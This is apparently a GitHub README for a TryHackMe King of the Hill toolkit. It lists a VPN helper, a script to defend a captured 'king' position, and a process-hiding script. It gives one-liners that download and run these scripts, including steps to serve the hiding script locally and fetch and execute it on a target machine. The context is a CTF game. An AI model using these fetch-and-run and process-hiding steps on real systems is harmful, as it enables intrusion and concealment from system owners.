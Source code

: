 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH; chmod +x KoTH; ./KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Protection ; chmod +x KoTH-Protection; ./KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Hidding; && chmod +x KoTh-Hidding; ./KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [x] 1️⃣ Asking For Your Username:
  - [x] 2️⃣ Asking For TryHackMe User Name:
  - [x] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 5️⃣ Asking For IP Target: >>>  ${`ip_Target`}
  - [ ] 6️⃣ Asking For Name Target: >>> ${`ip_Target_Name`}
  - [ ] 4️⃣ Asking Location For Reporting: >>> ${`export_Log_To`}

---

  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Location for Reporting:

---

- [x] Anonymity Surfing
    - [x] anonsurf status
    - [x] anonsurf start
    - [x] anonsurf stop

---

---

<img width="1534" alt="image" src="https://user-images.githubusercontent.com/51442719/205152090-29aaceb3-5751-455f-b151-d39782c56366.png">

- [Machine: Food](https://tryhackme.com/games/koth/59779)
First Hacked: Nov 24th at 11:57
- King Changes: 4
- Status: Completed
